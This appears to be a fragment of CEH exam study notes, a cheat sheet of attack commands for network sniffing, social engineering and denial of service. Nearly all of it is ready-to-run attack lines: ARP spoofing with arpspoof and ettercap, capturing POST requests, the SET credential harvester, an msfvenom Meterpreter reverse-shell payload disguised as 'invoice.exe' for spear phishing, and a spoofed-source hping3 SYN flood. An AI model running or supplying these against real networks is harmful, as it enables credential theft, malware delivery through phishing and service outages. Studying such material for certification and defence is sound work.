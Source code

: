 # Run these until automatic:

```
tcpdump -i eth0 -nn -vv 'port 80'
```

```
arpspoof -i eth0 -t victim_ip gateway_ip
```

```
wireshark -Y "http.request.method == POST"
```

```
ettercap -T -q -i eth0 -M arp
```

**[Back to top](#top)**
___

## Module 09: Social Engineering

SET Toolkit
  
```
setoolkit
```

Select:

```
1) Social-Engineering

2) Website Attack Vectors

3) Credential Harvester
```

Spear Phishing

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP -f exe > invoice.exe
```

[[CEH Walkthrough#^top|Back to top]]
___

## Module 10: Denial-of-Service
  
### Network Layer DoS Attacks (Exam Weight: 40%)

SYN Flood Attack

```
hping3 -S -p 80 --flood -a 192.168.1.100 10.10.10.10
```
